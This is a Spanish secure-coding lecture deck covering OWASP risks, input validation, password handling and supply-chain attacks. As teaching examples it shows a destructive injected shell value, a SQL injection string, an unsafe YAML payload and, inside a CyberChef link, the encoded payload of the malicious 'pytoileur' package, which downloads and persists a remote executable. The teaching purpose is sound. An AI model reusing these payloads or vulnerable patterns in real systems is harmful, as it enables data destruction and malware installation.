<!--
WARNING: está clase es interactiva. Las transparencias son solo una sugerencia
-->

<style>
    /* You can add custom style here. VSCode supports this.
    Other editor might need these custom code in
    the YAML header: section: | */
</style>

# Buenas Prácticas de Escritura de Código
<!-- _class: first-slide -->

Juan Vera del Campo - <juan.vera@professor.universidadviu.com>

# Como decíamos ayer...

- El modelado de amenazas permite identificar amenazas y tratarlas en el momento del diseño
- ¿Podemos mejorar la seguridad de una aplicación simplemente escribiendo buen código?

# Hoy hablamos de...
<!-- _class: cool-list toc -->

1. [Errores de código más comunes](#4)
1. [Buenas prácticas](#12)
1. [Gestión de usuarios](#20)
1. [Proyectos, librerías y dependencias](#33)
1. [VibeCoding with Artificial Intelligence](#47)
1. [Referencias](#51)

# Errores de código más comunes
<!-- _class: lead -->


## OWASP: Top 10


<https://owasp.org/Top10/2025/0x00_2025-Introduction/>


---


- [Real Life Examples of Web Vulnerabilities (OWASP Top 10)](https://www.cyberdb.co/real-world-examples-for-owasp-top-10-vulnerabilities/)
- [Fortinet Firewalls Hit with New Zero-Day Attack, Older Data Leak](https://www.rapid7.com/blog/post/2025/01/16/etr-fortinet-firewalls-hit-with-new-zero-day-attack-older-data-leak/)

<!--
Ya vimos durante la sesión anterior qué es lo que hace en proyecto OWASP

Entre sus guías, incluye el top ten de vulnerabilidades que debemos evitar en nuestro código
-->

---

1. [Broken access control](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/): usuarios capaces de hacer cosas a las que no deberían estar autorizados. Defensa: denegación por defecto
1. [Security Misconfiguration](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/) Defensa: system hardening
1. [Software Supply Chain Failures](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/): uso de librerías vulnerables. Defensa: auditorías
1. [Cryptographic failures](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/): protección definiciente de los datos en tránsito y almacenados. Defensa: políticas de datos
1. [Injection](https://owasp.org/Top10/2025/A05_2025-Injection/): el usuario puede forzar la ejecución de comandos. Defensa: librerías especializadas, validación de entradas

---

6. [Diseño inseguro](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/). Defensa: Threat Modeling.
1. [Authentication failures](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/). Atacantes entrando por fuerza bruta. Ejemplo de defensa: 2FA
1. [Integrity Failures](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/) No comprobar qué estamos ejecutando
1. [Monitoring Failures](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/) Errores en la gestión de alertas y logs
1. [Exceptional Conditions](https://owasp.org/Top10/2025/A10_2025-Mishandling_of_Exceptional_Conditions/) Errores en la gestión de los propios errores

## Otros proyectos




OWASP tiene otros proyectos

- API Top 10: https://owasp.org/www-project-api-security/
- Top 10 en LLMs <https://owasp.org/www-project-top-10-for-large-language-model-applications/>
- Top 10 en programación de dispositivos móviles <https://owasp.org/www-project-mobile-top-10/>

## Otras recomendaciones: SANS Top25

[](https://www.sans.org/top25-software-errors/)

>https://www.sans.org/top25-software-errors/

## Otras recomendaciones: MITRE

<!-- _class: smaller-font -->

Rank|ID|Name
--|--|--
[1]|CWE-79|	Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')|	65.93|+1
[2]|CWE-787|	Out-of-bounds Write|	46.84|	-1
[3]|CWE-89|	Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')|	24.9|	+1
[4]|CWE-352|	Cross-Site Request Forgery (CSRF)|	20.47|	-1
[5]|CWE-22|	Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')|	19.55|	+5
[6]|CWE-125|	Out-of-bounds Read|	19.54	|0
[7]|CWE-78|	Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')|	16.83|	+1
[8]|CWE-416|	Use After Free|	14.69	|+4
[9]|CWE-862|	Missing Authorization|	14.46	|0
[10]|CWE-434|	Unrestricted Upload of File with Dangerous Type|	8.45|	+5

> https://cwe.mitre.org/top25/archive/2024/2024_cwe_top25.html


# Buenas prácticas
<!-- _class: lead -->

## Recomendaciones
<!-- _class: two-columns smaller-font -->

1. **Input Validation**: nunca te fíes de tus entradas
    - Tamaño de la entrada
    - Caracteres válidos
    - Formato, tipo (entero, cadena...) -> **Sanitizar**
    - Dentro de valores permitidos (máximos, mínimos...)
    - ¡Existente!
2. **Manejo de secretos**
    - Comprueba que los errores de autenticación no incluyen información
    - Guarda las contraseñas de forma segura en todos los dispositivos
    - Transmite las contraseñas de forma segura
    - https://github.com/OWASP/wrongsecrets

<!-- -->

3. **Least privilege**
    - Valida los permisos en cada petición
    - Crea *tests* que validan permisos
    - Mantén las autorizaciones en el nivel mínimo posible
5. **Gestión de librerías** seguras y probadas
6. **Usable**
7. **Acceso denegado por defecto**
8. **Registra todas las acciones** (logging)
9. **Usa guías de estilo** (linters)
10. **Control de calidad** (ver siguiente temas)


> https://codesigningstore.com/secure-coding-practices-to-implement

<!--

## Recomendaciones para Python

- Always sanitize external data
- Scan your code
- Be careful when downloading packages
- Review your dependency licenses
- Do not use the system standard version of Python
- Use Python’s capability for virtual environments
- Set DEBUG = False in production
- Be careful with string formatting
- (De)serialize very cautiously
- Use Python type annotations

> https://snyk.io/blog/python-security-best-practices-cheat-sheet/

-->

## Input validation

Siempre tienes que "sanitizar" cualquier *input* del usuario

```python
import os

filename = input('Select a file for deletion: ')
os.system('rm %s')
```

¿Qué pasa si el usario introduce `-rf / ; dd if=/dev/random of=/dev/sda`  ?

---

Mejor:

```python
import os

filename = input('Select a file for deletion: ')
os.remove(filename)
```

Pero...

¿Qué pasa si el usario introduce `*`  ?


<!--
En el caso particular de esta función, no pasa nada: la función no permite atajos de shell. Pero tienes que tenerlo en cuenta para tus funciones∫
-->

##  Input validation: injection

Ejemplo con SQL injection:

```
txtUserId = getRequestString("UserId");
txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
```

Si, por ejemplo, `UserId=5`, el comando devolverá los datos del usuario 5

Si un atacante es capaz de asignar `UserId= "105 OR 1=1"`...

Se ejecutará: `SELECT * FROM Users WHERE UserId = 105 OR 1=1;`

¡Este comando devuelve toda la base de datos!

> https://www.w3schools.com/sql/sql_injection.asp


## Registra todas las acciones

No uses `print()`, sinó el módulo *logging* (Java: *log4j*)

```python
import logging

logger = logging.getLogger()
logger.warning('Esto es un mensaje de warning %d', 5)
logger.info('Esto es un mensaje de info')
logger.info('Esto es un mensaje de error')
```

Estas librerías especializadas permiten configurar la salida de log. Por ejemplo: errores consola y archivo, info solo a archivo, colores, incluir fechas...

<https://cwe.mitre.org/data/definitions/778.html>

> https://www.geeksforgeeks.org/logging-in-python/


<!--
Y los logs de aplicación puedes fácilmente centralizarlos en un SIEM
-->

## Guías de estilo (linters)

- Tienes que entender el código de otro para poder decidir si es seguro o no
- En dos semanas, no entenderás tu propio código
- Los lenguajes que dan mucha libertad pueden provocar que cada programador escriba de una manera
- Todos los programadores del equipo deben seguir las mismas reglas

Ejemplos:

- https://pep8.org/
- https://google.github.io/styleguide/pyguide.html
- https://sphinxcontrib-napoleon.readthedocs.io/en/latest/example_google.html

<!--
Para forzar las mismas reglas en toda la empresa, puedes utilizar linters: no permitirán que un código compile o se suba a git si no sigue las reglas de la empresa

PEP8 es un ejemplo de reglas. Hay muchos más. Los linters los puedes encontrar para cada lenguaje. Ejemplos en Python: pylama, frake8. Ejemplos en Javascript: eslint
-->

---




# Gestión de usuarios
<!-- _class: lead -->

Broken Access

## Cosas a tener en cuenta

- No guardes contraseñase en claro en la base de datos
- No guardes la contraseña de conexión a la base de datos en el código
- Comprueba si los usuarios tienen autorización para realizar las acciones
- Equivocarse es fácil: escribe las cosas solo una vez y reutiliza código
- Aprovecha los mecanismos que ya incluyen las librerías que uses

## Ejemplo inicial
<!-- _class: smaller-font -->

```python
DB_CONFIG = {
    'user': 'tu_usuario_mysql',       # e.g., 'root'
    'password': 'tu_contraseña_mysql', # e.g., 'password123'
    'host': '127.0.0.1',             # e.g., 'localhost'
    'database': 'test_python_db'     # Un nombre de base de datos existente o que deseas crear
}

@app.get("/create")
async def create(name, password):
    conn = mysql.connector.connect(**DB_CONFIG)
    sql = f'INSERT INTO users(name,password) VALUES("{name}","{password}")'
    cur = conn.cursor()
    cur.execute(sql)
    conn.commit()
    return {"message": f"I created user {name}"}
```

Problemas:

- SQL injection: <https://cwe.mitre.org/data/definitions/89.html>
- Los errores no se manejan: <https://cwe.mitre.org/data/definitions/200.html>
- Contraseñas en claro en la base de datos:
	- <https://cwe.mitre.org/data/definitions/798.html>
	- <https://cwe.mitre.org/data/definitions/540.html>

---
<!-- _class: smaller-font -->

```python
DB_CONFIG = {
    'user': 'tu_usuario_mysql',       # e.g., 'root'
    'password': 'tu_contraseña_mysql', # e.g., 'password123'
    'host': '127.0.0.1',             # e.g., 'localhost'
    'database': 'test_python_db'     # Un nombre de base de datos existente o que deseas crear
}

@app.get("/create")
async def create(name, password):
    conn = mysql.connector.connect(**DB_CONFIG)
    sql = 'INSERT INTO users(name,password) VALUES(?,?)'
    hashed = bcrypt.hashpw(password.encode(), bcrypt.gensalt())
    cur = conn.cursor()
    cur.execute(sql, (name, hashed))
    conn.commit()
    return {"message": f"I created user {name}"}
```

Problemas:

- Los errores no se manejan: <https://cwe.mitre.org/data/definitions/200.html>
- Conexión a la base de datos dentro del código:
	- <https://cwe.mitre.org/data/definitions/798.html>
	- <https://cwe.mitre.org/data/definitions/540.html>

---
<!-- _class: smaller-font -->

```python
from fastapi import FastAPI
import sqlite3
import bcrypt

app = FastAPI()

class User:
    def __init__(self, name, password):
        self.name = name
        self.hashed = bcrypt.hashpw(password.encode(), bcrypt.gensalt())
    
    def check(self, password):
        return bcrypt.checkpw(password.encode, self.hashed)
    
    def create(self):
        # TODO: check uniqueness
        conn = sqlite3.connect('users.db')
        sql = 'INSERT INTO users(name,password) VALUES(?,?)'
        cur = conn.cursor()
        cur.execute(sql, (self.name, self.hashed))
        conn.commit()

@app.get("/create")
async def create(name, password):
    user = User(name, password)
    user.create()
    return {"message": f"I created user {name}"}
```

Problemas:

- No hay validación de entrada: <https://cwe.mitre.org/data/definitions/89.html>

---

```python
@app.get("/create")
async def create_user(
        name: str = Query(max_length=50, default=None),
        password: str = Query(min_length=3, max_length=50, default=0),
        age: int = Path(title="The age of the new user", ge=18, default=0)):
    user = User(name, password)
    user.create()
    return {"message": f"I created user {name}"}
```

- Problemas: cualquiera puede crear un nuevo usuario con un nombre ya usado: <https://cwe.mitre.org/data/definitions/306.html>

---

```python
def get_current_username(
    credentials: Annotated[HTTPBasicCredentials, Depends(security)]
):
    current_username_bytes = credentials.username.encode("utf8")
    correct_username_bytes = b"stanleyjobson"
    is_correct_username = secrets.compare_digest(
        current_username_bytes, correct_username_bytes
    )
    current_password_bytes = credentials.password.encode("utf8")
    correct_password_bytes = b"swordfish"
    is_correct_password = secrets.compare_digest(
        current_password_bytes, correct_password_bytes
    )
    if not (is_correct_username and is_correct_password):
        raise HTTPException(
            status_code=status.HTTP_401_UNAUTHORIZED,
            detail="Incorrect email or password",
            headers={"WWW-Authenticate": "Basic"},
        )
    return credentials.username
```

> https://fastapi.tiangolo.com/advanced/security/http-basic-auth/#__tabbed_3_1

<!--
---



---



-->

## Gestión de usuarios logueados

```python
@app.route('/secret_page')
def secret_page():
    if g.user is None:
            return redirect(url_for('login', next=request.url))
    pass

@app.route('/another_secret_page')
def another_secret_page():
    if g.user is None:
            return redirect(url_for('login', next=request.url))
    pass
```

---

Uso de decoradores para escribir la lógica solo una vez:

```python
from functools import wraps
from flask import g, request, redirect, url_for

def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if g.user is None:
            return redirect(url_for('login', next=request.url))
        return f(*args, **kwargs)
    return decorated_function

@app.route('/secret_page')
@login_required
def secret_page():
    pass

@app.route('/another_secret_page')
@login_required
def another_secret_page():
    pass
```

- <https://flask.palletsprojects.com/en/stable/patterns/viewdecorators/>

## Contraseñas en archivos de configuración

```python
# settings.py
import os
from os.path import join, dirname
from dotenv import load_dotenv

dotenv_path = join(dirname(__file__), '.env')
load_dotenv(dotenv_path)

SECRET_KEY = os.environ.get("SECRET_KEY")
DATABASE_PASSWORD = os.environ.get("DATABASE_PASSWORD")
```

- Cuidado: estos archivos de configuración no deben estar en el control de versiones
- Considera leer de memoria: `DATABASE_PASSWORD = os.environ.get("DATABASE_PASSWORD")`
- Conexión a la base de datos dentro del código: <https://cwe.mitre.org/data/definitions/540.html>

## Secure by default

La configuración por defecto tiene que ser "acceso prohibido"

Ejemplo:

- No permitas acceso sin autenticación
- No des información privada a personas no autenticadas
- Política de contraseñas
- Usa cifrado por defecto

- CWE:
    - https://cwe.mitre.org/data/definitions/276.html
    - https://cwe.mitre.org/data/definitions/636.html


## Complete Mediation

- Para cada acceso a cada objeto verifica que el usuario tiene los permisos adecuados
- Verificar los permisos implica que el usuario tiene que estar autenticado en el sistema

- CWE:
    - https://cwe.mitre.org/data/definitions/862.html
    - https://cwe.mitre.org/data/definitions/638.html

## Least Privilege

- Usa los privilegios mínimos necesarios para una tarea y durante el menor tiempo necesario
- Usa revocación de privilegios cuando ya no sean necesarios
- Los roles deben ser revisados, acordados y auditados periódicamente

- CWE:
    - https://cwe.mitre.org/data/definitions/269.html
    - https://cwe.mitre.org/data/definitions/250.html

# Proyectos, librerías y dependencias
<!-- _class: lead -->

Supply Chain Attacks


## Creación del proyecto

En esta sección crearemos un proyecto Vue directamente dentro de un docker. Esta no es la manera recomendada de crear proyectos Vue, pero lo haremos así para no tener que instalar más cosas en nuestros PCs.

```
docker run -ti --rm node bash
mkdir project ; cd project
npm install vue
npm install vuetify
npm install vuetify@^3.0.1
npm install eslint
ls node_modules
npm audit
```

<!--
Esta transparencia la veremos con comandos reales, está aquí solo para referencia
-->

## Archivo package.json (JavaScript)

- Incluye metadados del proyecto
- Lista dependencias, con las versiones exactas
- Ventajas: es reproducible en cualquier PC
- Desventajas: ocupa mucho más espacio en disco

---



---

Ejemplos:

- https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610
- https://www.theverge.com/2022/1/9/22874949/developer-corrupts-open-source-libraries-projects-affected
- https://www.bleepingcomputer.com/news/security/dev-corrupts-npm-libs-colors-and-faker-breaking-thousands-of-apps/

## Archivo Package y Package.lock (Python)

```
"biplist": {
    "hashes": [
    "sha256:4c0549764c5fe50b28042ec21aa2e14fe1a2224e239a1dae77d9e7f3932aa4c6"
    ],
    "index": "pypi",
    "version": "==1.0.3"
  },
```


## ¡No re-inventes la rueda!

- No re-inventes la rueda: utiliza librerías reconocidas siempre que puedas
- Pero recuerda auditar tus librerías
- Considera utilizar contextos para la aplicación:
  - JavaScript: npm / yarn
  - Python: pip / conda / pipenv

## Ejemplo: Pytoileur
<!-- _class: two-columns -->



- Librería publicada en Pypi el 27 de mayo de 2024 ([Link](https://pypi.org/project/pytoileur/1.0.2/))
- Descripción genérica "pystob allows for API Authorization Management and allows to build REST-Based API with custom JSON syntax. "

> Historia completa: https://www.sonatype.com/blog/pypi-crypto-stealer-targets-windows-users-revives-malware-campaign

---

Si descargas el código, solo tiene un archivo `setup.py`, que parece completamente vacío y limpio a primera vista...



---

Pero esa línea 17 en realidad oculta otro comando después de muchos espacios. Para poder verlo hay que activar el "word wrap" en tu editor de texto (Alt+Z en VS)



---

Si analizamos qué hace este código: añade un archivo a Windows que se ejecuta siempre que el usuario abre una nueva sesión en su PC




[Análisis en Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Syntax_highlighter('powershell')&input=YVcxd2IzSjBJRzl6Q21sdGNHOXlkQ0J6ZFdKd2NtOWpaWE56Q214dloybHVJRDBnYjNNdVoyVjBiRzluYVc0b0tRcHBaaUJ2Y3k1d1lYUm9MbVY0YVhOMGN5aG1KME02WEZ4VmMyVnljMXhjZTJ4dloybHVmVnhjUVhCd1JHRjBZVnhjVW05aGJXbHVaMXhjVFdsamNtOXpiMlowWEZ4WGFXNWtiM2R6WEZ4VGRHRnlkQ0JOWlc1MVhGeFFjbTluY21GdGMxeGNVM2x6ZEdWdE9EWmNYQ2NwSUQwOUlFWmhiSE5sT2dvS0lDQWdJRzl6TG0xclpHbHlLR1lpUXpwY1hGVnpaWEp6WEZ4N2JHOW5hVzU5WEZ4QmNIQkVZWFJoWEZ4U2IyRnRhVzVuWEZ4TmFXTnliM052Wm5SY1hGZHBibVJ2ZDNOY1hGTjBZWEowSUUxbGJuVmNYRkJ5YjJkeVlXMXpYRnhUZVhOMFpXMDROaUlwQ2lBZ0lDQnZjR1Z1S0dZaVF6cGNYRlZ6WlhKelhGeDdiRzluYVc1OVhGeEJjSEJFWVhSaFhGeFNiMkZ0YVc1blhGeE5hV055YjNOdlpuUmNYRmRwYm1SdmQzTmNYRk4wWVhKMElFMWxiblZjWEZCeWIyZHlZVzF6WEZ4VGVYTjBaVzA0Tmx4Y1YwbE9Nekl1ZG1Keklpd2dJbUVpS1M1M2NtbDBaU2htSjFObGRDQlhjMmhUYUdWc2JDQTlJRU55WldGMFpVOWlhbVZqZENnaVYxTmpjbWx3ZEM1VGFHVnNiQ0lwSUZ4dVYzTm9VMmhsYkd3dVVuVnVJR05vY2lnek5Da2dKaUFpUXpwY1hGVnpaWEp6WEZ4N2JHOW5hVzU5WEZ4QmNIQkVZWFJoWEZ4U2IyRnRhVzVuWEZ4TmFXTnliM052Wm5SY1hGZHBibVJ2ZDNOY1hGTjBZWEowSUUxbGJuVmNYRkJ5YjJkeVlXMXpYRnhUZVhOMFpXMDRObHhjVjBsT016SXVZbUYwSWlBbUlFTm9jaWd6TkNrc0lEQmNibE5sZENCWGMyaFRhR1ZzYkNBOUlFNXZkR2hwYm1jbktRb2dJQ0FnYjNCbGJpaG1Ja002WEZ4VmMyVnljMXhjZTJ4dloybHVmVnhjUVhCd1JHRjBZVnhjVW05aGJXbHVaMXhjVFdsamNtOXpiMlowWEZ4WGFXNWtiM2R6WEZ4VGRHRnlkQ0JOWlc1MVhGeFFjbTluY21GdGMxeGNVM2x6ZEdWdE9EWmNYRmRKVGpZMExuWmljeUlzSUNKaElpa3VkM0pwZEdVb1ppZFRaWFFnVjNOb1UyaGxiR3dnUFNCRGNtVmhkR1ZQWW1wbFkzUW9JbGRUWTNKcGNIUXVVMmhsYkd3aUtTQmNibGR6YUZOb1pXeHNMbEoxYmlCamFISW9NelFwSUNZZ0lrTTZYRnhWYzJWeWMxeGNlMnh2WjJsdWZWeGNRWEJ3UkdGMFlWeGNVbTloYldsdVoxeGNUV2xqY205emIyWjBYRnhYYVc1a2IzZHpYRnhUZEdGeWRDQk5aVzUxWEZ4UWNtOW5jbUZ0YzF4Y1UzbHpkR1Z0T0RaY1hGSjFiblJwYldVdVpYaGxJaUFtSUVOb2NpZ3pOQ2tzSURCY2JsTmxkQ0JYYzJoVGFHVnNiQ0E5SUU1dmRHaHBibWNuS1FvS0lDQWdJRzl3Wlc0b1ppSkRPbHhjVlhObGNuTmNYSHRzYjJkcGJuMWNYRUZ3Y0VSaGRHRmNYRkp2WVcxcGJtZGNYRTFwWTNKdmMyOW1kRnhjVjJsdVpHOTNjMXhjVTNSaGNuUWdUV1Z1ZFZ4Y1VISnZaM0poYlhOY1hGTjVjM1JsYlRnMlhGeFhTVTR6TWk1aVlYUWlMQ0FpWVNJcExuZHlhWFJsS0dZbkp5ZGlhWFJ6WVdSdGFXNGdMM1J5WVc1elptVnlJRzE1Wkc5M2JteHZZV1JxYjJJZ0wyUnZkMjVzYjJGa0lDOXdjbWx2Y21sMGVTQkdUMUpGUjFKUFZVNUVJQ0pvZEhSd09pOHZOVEV1TnpjdU1UUXdMakUwTkRvNE1EZzJMMlJzTDNKMWJuUnBiV1VpSUNKRE9seGNWWE5sY25OY1hIdHNiMmRwYm4xY1hFRndjRVJoZEdGY1hGSnZZVzFwYm1kY1hFMXBZM0p2YzI5bWRGeGNWMmx1Wkc5M2MxeGNVM1JoY25RZ1RXVnVkVnhjVUhKdlozSmhiWE5jWEZONWMzUmxiVGcyWEZ4U2RXNTBhVzFsTG1WNFpTSmNibk4wWVhKMElDSWlJQ0pET2x4Y1ZYTmxjbk5jWEh0c2IyZHBibjFjWEVGd2NFUmhkR0ZjWEZKdllXMXBibWRjWEUxcFkzSnZjMjltZEZ4Y1YybHVaRzkzYzF4Y1UzUmhjblFnVFdWdWRWeGNVSEp2WjNKaGJYTmNYRk41YzNSbGJUZzJYRnhTZFc1MGFXMWxMbVY0WlNJbkp5Y3BDaUFnSUNCemRXSndjbTlqWlhOekxuSjFiaWhtSWtNNlhGeFZjMlZ5YzF4Y2UyeHZaMmx1ZlZ4Y1FYQndSR0YwWVZ4Y1VtOWhiV2x1WjF4Y1RXbGpjbTl6YjJaMFhGeFhhVzVrYjNkelhGeFRkR0Z5ZENCTlpXNTFYRnhRY205bmNtRnRjMXhjVTNsemRHVnRPRFpjWEZkSlRqTXlMblppY3lJc0lITm9aV3hzUFZSeWRXVXNJR05vWldOclBWUnlkV1VwQ2lBZ0lDQUtaV3h6WlRvZ0lDQUtJQ0FnSUhCaGMzTT0)

---

El atacante recomendaba instalar su librería en respuestas en sourceforge (comentarios borrados actualmente)




## Audita tus librerías / dependencias

- [The NPM package that walked away with all your passwords (2019)](https://blog.reversinglabs.com/blog/the-npm-package-that-walked-away-with-all-your-passwords)
- [Popular Node.js package vulnerable to command injection attacks (2021)](https://portswigger.net/daily-swig/popular-node-js-package-vulnerable-to-command-injection-attacks)
- [Open source attacks on the rise: Top 8 malicious packages found in npm (2021)](https://blog.sonatype.com/open-source-attacks-on-the-rise-top-8-malicious-packages-found-in-npm)
- [10 malicious Python packages exposed in latest repository attack (2022)](https://arstechnica.com/information-technology/2022/08/10-malicious-python-packages-exposed-in-latest-repository-attack/)
- [Protecting Your Software from Malicious Third-party Dependencies (2023)](https://www.csa.gov.sg/alerts-advisories/Advisories/2023/ad-2023-002)
- [PyTorch discloses malicious dependency chain compromise over holidays (2023)](https://www.bleepingcomputer.com/news/security/pytorch-discloses-malicious-dependency-chain-compromise-over-holidays/)
- [State of Dependency Management (2023)](https://www.endorlabs.com/learn/state-of-dependency-management-2023)
- [Backdoor in upstream xz/liblzma leading to ssh server compromise (2024)](https://www.openwall.com/lists/oss-security/2024/03/29/4)

---

No te fies de nadie...



# VibeCoding with Artificial Inteligence
<!-- _class: lead -->

## Recomendaciones

1. Tú eres el desarrollador, la IA es ayudante. La responsabilidad será tuya
1. Aplica las Best Practices siempre: code reviews, testing, static analysis, documentation, and version control
1. Piensa en la seguridad desde el principio
1. Guía a la IA
1. Pide a la IA que ella misma mejore el trabajo: diseño incremental
1. Pregunta tus dudas y expresa tus inquietudes

> https://best.openssf.org/Security-Focused-Guide-for-AI-Code-Assistant-Instructions

## Workflow

1. Haz el modelado de amenazas, prioriza y detecta requisitos de seguridad
1. Diseña la arquitectura del sistema, con o sin ayuda
1. Escribe los pasos anteriores en un documento. Ejemplo: CLAUDE.md
1. Deja que la IA escriba el sistema
1. Diseño iterativo:
    - Asegúrate de que todo funciona
    - Añade tests unitarios
    - Instrucciones de uso de control de versiones
    - Actualiza documentación

---

Ejemplo: https://github.com/Juanvvc/passmanager2

## Referencias
<!-- _class: lead -->

---

- "The Protection of Information in Computer Systems", JEROME H. SALTZER and MICHAEL D. SCHROEDER, 1974
- https://brightsec.com/blog/xss-attack/
- https://snyk.io/blog/python-security-best-practices-cheat-sheet/
- [OWASP HTML5 Security cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html)
- [Do Users Write More Insecure Code with AI Assistants?](https://arxiv.org/pdf/2211.03622.pdf), Universidad de Stanford. 16 de diciembre 2022
- [Asleep at the Keyboard? Assessing the
Security of GitHub Copilot’s Code Contribution](https://arxiv.org/pdf/2108.09293.pdf), diciembre 2021
- [C# Bad Practices: Learn How to Make Good Code by Using Examples of Bad Code](https://www.codeproject.com/Articles/1083348/Csharp-Bad-Practices-Learn-How-to-Make-Good-Code-b)
- [For every 10 likes this gets, I will ask ChatGPT to make this code more insecure](https://twitter.com/LiveOverflow/status/1729798452094128278)


## Para practicar: Bwapp


- Aplicación web con múltiples problemas de seguridad
- ¡No incluye explicaciones!
- Tres niveles de dificultad

http://www.itsecgames.com/

---

1. `docker run --rm -p 8080:80 raesene/bwapp`
1. Go to: <http://localhost:8080/install.php> and click on "install"

<!--
Soluciones:

- https://jaiguptanick.github.io/Blog/blog/Walkthrough_of_bWAPP_solutions_A1_injection_writeups/
- https://dumbmaster.blogspot.com/2017/01/owasp-top-10-bwapp-walkthrough-for-a1_21.html
-->

## Para practicar: WebGoat


- Web de aprendizaje de OWASP
- Incluye lecciones y ejercicios de la lista de OWASP

https://owasp.org/www-project-webgoat/

---

1. `docker run --rm -p 8080:8080 -p 9090:9090 -t -e TZ=Europe/Amsterdam webgoat/goatandwolf`
1. Ve a <http://localhost:8080/WebGoat> y registra un nuevo usuario

<!--
Nota: no he sido capaz de ejecutar WebWolf desde el docker, quizá prefieras hacerlo en tu propio PC
-->

## Ejemplo 1

```javascript
function authenticateUsers(username, password) {
    var accounts = apiService.sql("SELECT * FROM users");
    for(var i=0, i<accounts.length; i++) {
        var account = account[i];
        if(account.username === username && account.password === password) {
            return true;
        }
        if ("true" === "true") {
            return false;
        }
    }
}
$("#login").click(function () {
    var username = $("#username").val();
    var password = $("#password").val();
    var authenticated = authenticatedUser(username, password);
    if (authenticated === true) {
        $.cookie('loggedin', 'yes', {expires: 1});
    } else if (authenticated === false) {
        $("error_message").show(LogIn Failed);
    }
});
```

> https://twitter.com/hot_girl_spring/status/1853430439022670236

<!--
This code snippet contains several issues that indicate a lack of experience, which is likely why it was shared with the caption, "I don't think the intern will last much longer." Here are some specific issues:

Potential SQL Injection: The code uses apiService.sql("SELECT * FROM users") to retrieve user data. If apiService.sql doesn't implement SQL injection protection, this approach could expose the database to attacks. Typically, prepared statements or ORM (Object-Relational Mapping) tools are used to avoid this risk.

Inefficient Authentication Logic: The authenticateUser function iterates through all user accounts in the database (for (var i = 0; i < accounts.length; i++)). In a real-world application, fetching all user records to find a single match is highly inefficient and poses security risks by unnecessarily loading all user data.

Hardcoded Condition Always Returning False: At the end of authenticateUser, there's an if ("true" === "true") { return false; } condition, which always evaluates to true and will always return false, regardless of whether the user credentials are correct. This effectively prevents any user from logging in successfully, making the authentication function useless.

Unsecure Cookie Storage: The code uses $.cookie('loggedin', 'yes', { expires: 1 }); to set a login cookie without any additional security configurations, such as HttpOnly or Secure flags. This makes the cookie vulnerable to client-side manipulation or interception in non-HTTPS contexts.

Potential Incorrect Error Handling: The line $("error_message").show(LogIn Failed) appears to be missing proper syntax for displaying the error message. It should likely be $("#error_message").show("Login Failed");, where # selects the element by ID, and "Login Failed" should be wrapped in quotes.

These issues are commonly made by beginners and can lead to performance problems and significant security vulnerabilities, which is likely why the post humorously suggests that "the intern won't last much longer."
-->

## Input validation: templates

```python
import yaml

input = '''
title: Título de Prueba
alumnos:
    - María
    - Eva
    - Alberto
    - Jorge
'''

clase = yaml.load(input, yaml.BaseLoader)
print(clase['alumnos'])

# Salida: ['María', 'Eva', 'Alberto', 'Jorge']
```

- <https://cwe.mitre.org/data/definitions/502.html>

---

```python
import yaml

input = '!!python/object/new:sys.exit [42]'
yaml.load(input, Loader=yaml.UnsafeLoader)
```

¿Cuál es la salida de este comando?

> https://theconversation.com/what-is-log4j-a-cybersecurity-expert-explains-the-latest-internet-vulnerability-how-bad-it-is-and-whats-at-stake-173896

<!--
Un ejemplo de esta vulnerabildad que nos tuvo varias semanas pegados a la pantalla en 2021 fue log4j
-->

## Valida lo que dice el usuario

- Verifica que todos los datos recibidos cumplan con las propiedades o tipos de datos esperados
- Mucho cuidado con permitir entender las entradas de los usuarios como código
- Top 10 de OWASP y SANS

- CWE:
    - https://cwe.mitre.org/data/definitions/710.html
    - https://cwe.mitre.org/data/definitions/1006.html

---



El bug no es obvio: si `file` es un path absoluto, ignora los paths anteriores: <https://docs.python.org/3/library/os.path.html>

---




# ¡Gracias!
<!-- _class: last-slide --> 
